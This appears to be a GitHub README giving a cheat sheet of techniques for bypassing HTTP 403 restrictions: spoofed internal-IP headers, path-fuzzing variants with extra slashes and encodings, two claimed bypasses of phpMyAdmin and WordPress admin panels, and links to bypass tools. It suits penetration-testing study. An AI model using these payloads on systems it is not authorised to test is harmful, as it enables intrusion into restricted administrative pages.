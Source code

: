 # Awesome Bypass 403 - Forbidden :no_entry:

- **Introduction**

Depending on the configuration made by the infrastructure analyst, there are some ways to get past the 403-forbidden error generally by configuring when you should not be allowed to access certain resources of that directory or file.

I created this quick document to demonstrate some techniques for this, including, I already used it and managed to pass the **403 error** and access database administrative login pages.

<p align="center">
  <img width="600" height="300" src="https://miro.medium.com/max/2800/0*tx6bHhEGLQcPQqC_.png">
</p>
<br>

## Some techniques :page_facing_up:


 #### <span style="color:red">Attention</span> :bangbang:

Before using the techniques below, it is worth changing the HTTP methods for each attempt, such as GET, POST, PATCH, OPTIONS, TRACE...

1. Method ***HTTP Headers Fuzzing***

In some cases, access to pages and private files can be done by changing the ***Header*** of the request and including an internal address, here are some examples;

- X-ProxyUser-Ip: 127.0.0.1
- Client-IP: 127.0.0.1
- Host: localhost
- X-Originating-IP: 127.0.0.1
- X-Forwarded-For: 127.0.0.1
- X-Remote-IP: 127.0.0.1
- X-Remote-Addr: 127.0.0.1
- X-Real-IP: 127.0.0.1

2. Method ***Path Fuzzing***

We can try to make some changes to the url, using special characters or including HTML encoding, exemples;

- test.com/admin/*
- test.com/*admin/
- test.com/%2fadmin/
- test.com%2fadmin%2f
- test.com/./admin/
- test.com//admin/./
- test.com///admin///
- test.com//admin//
- test.com/ADMIN/
- test.com/;/admin/
- test.com//;//admin/

## Real example 1 of Bypass

The example below is a bypass used in the phpmyadmin console, configured to be accessed only with specific IP x.x.x.x the context /phpmyadmin/

I made some attempts changing the context, example;

- /phpmyadmin/*
- /./phpmyadmin/
- //phpmyadmin//
- /*/phpmyadmin/

<p align="center">
  <img width="600" height="250" src="https://github.com/0xSojalSec/Awesome-403-Bypass/blob/main/403.JPG">
</p>

However, without success :(

After a few attempts to pass the 403, I tried changing the context to;

- **<span style="color:red;">///phpmyadmin///</span>**

<p align="center">
  <img width="600" height="250" src="https://github.com/0xSojalSec/Awesome-403-Bypass/blob/main/bypass.JPG">
</p>

In this case using 3 slashes (///), we managed to pass the 403 error and access the phpmyadmin login page. :ok_hand:

## Real example 2 of Bypass

In this example, we access the wordpress login panel using, in this case, 2 slashes (//).

In this url, we couldn't use the same context with 3 slashes, however, we managed using another change in the context.

<p align="center">
  <img width="600" height="250" src="https://github.com/0xSojalSec/Awesome-403-Bypass/blob/main/403-wp.JPG">
</p>

Using the context below
- **<span style="color:red;">//wp-admin//</span>**

<p align="center">
  <img width="600" height="400" src="https://github.com/0xSojalSec/Awesome-403-Bypass/blob/main/bypass-wp.JPG">
</p>
<br>

## Tool Tip :white_check_mark:

Some developers who created some tools to facilitate the identification of possible pages that we managed to pass the 403 error. The github project below (***iamj0ker***) was tested and we were able to validate some prohibited entries.

[github.com/iamj0ker/bypass-403](https://github.com/iamj0ker/bypass-403)

For those who use **Burpsuite Professional**, there is a plugin in the store to validate contexts with denied permissions, called **403 Bypasser**.

[403 Bypasser](https://portswigger.net/bappstore/444407b96d9c4de0adb7aed89e826122)

To find possible directories with 403 permissions, we can perform a bruteforce of directories and files using **Dirsearch**.

[Dirsearch](https://github.com/maurosoria/dirsearch)


<a href="https://asciinema.org/a/380112" target="_blank"><img src="https://asciinema.org/a/380112.svg" /></a>
